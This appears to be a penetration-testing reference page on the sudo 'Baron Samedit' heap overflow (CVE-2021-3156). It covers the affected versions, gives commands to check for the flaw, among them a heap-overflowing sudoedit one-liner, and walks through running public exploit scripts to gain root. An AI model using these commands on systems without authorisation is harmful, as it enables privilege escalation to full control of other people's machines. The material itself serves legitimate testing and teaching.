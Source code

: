 # Sudo Baron Samedit

# Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.  

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

# Practice

{% tabs %}
{% tab title="Enum" %}
To check, you run the following command. If this returns an error message `sudoedit: /: not a regular file`, then it’s vulnerable. If it returns the sudoedit usage, it’s not.
```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:
```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit.
For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit_nss.py:
```bash
python3 exploit_nss.py
``` 
For Linux distribution that glibc has no tcache support:
```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)  
On the vulnerable host we can do:
```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```

{% endtab %}
{% endtabs %}


## References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
